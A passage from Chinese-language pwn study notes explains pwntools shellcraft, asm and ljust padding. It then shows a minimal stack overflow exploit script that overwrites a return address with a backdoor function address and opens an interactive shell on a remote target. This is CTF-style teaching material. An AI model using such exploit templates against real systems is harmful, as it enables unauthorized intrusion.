 5. shellcraft 模块

    > https://pwntools-docs-zh.readthedocs.io/zh-cn/dev/shellcraft.html

    用来生成各种系统架构 shellcode 的模块，包括 AArch64、AMD64（Intel x64）、ARM、i386 以及 MIPS。
    生成 Shellcode 的汇编代码用：`shellcraft.架构名.[linux.]sh()`。
    但是直接发送 Shellcode 过去是无法获得 Shell 的，因为内存内需要的是机器码（从而得以让 CPU 执行），所以需要使用汇编器对 Shellcode 进行汇编：`asm()`。
    同时，为了确保 Shell 交互的有效，同时还需要设置 `context` 上下文。

6. asm 模块

    > https://pwntools-docs-zh.readthedocs.io/zh-cn/dev/asm.html

    上文提到了 shellcode 需要进行汇编以变成机器码，因此直接调用 `asm()` 函数即可。
    除此之外，还可以进行反汇编。

7. `ljust()`

    > https://www.runoob.com/python/att-string-ljust.html

    这是 python 的原生函数，一般 payload 需要 shellcode + 垃圾数据 + 返回地址。此时垃圾数据就用 `ljust()` 函数填充（因为 shellcode 长度不懂）。

### 3.2 最简单的 payload 编写示例

1. 假设二进制程序没有任何保护，静态编译后存在后门函数，通过调试得到的栈的使用如下：
    ![image-20240220170005833](Pwn/image-20240220170005833.png)
    可以看出，写入的数据会进入到 eax 寄存器，其距离调用者 `main()` 的栈帧的返回地址是 14H（也就是 1CH - 08H)，也就是 16 + 4 = 20 bytes，因此 payload 前面有 20 bytes 的垃圾数据，后 4 bytes 数据用于覆盖返回地址。

2. payload 如下：
    ```python 
    from pwn import *
    io = remote("ip", port_number)
    io.recvline() # 或者 io.recv()，直到数据注入点
    # 根据 IDA 的静态分析，得到后门函数的入口地址为 0x08048522
    payload = b'A' * 20 + p32(0x08048522)
    io.send(payload)
    # 攻击成功后可以进行交互
    io.interactive()
    ```

## 4. GDB-pwndbg 的使用 - 动态调试

1. 启动 pwndbg：
    `gdb-pwndbg -q 二进制程序`
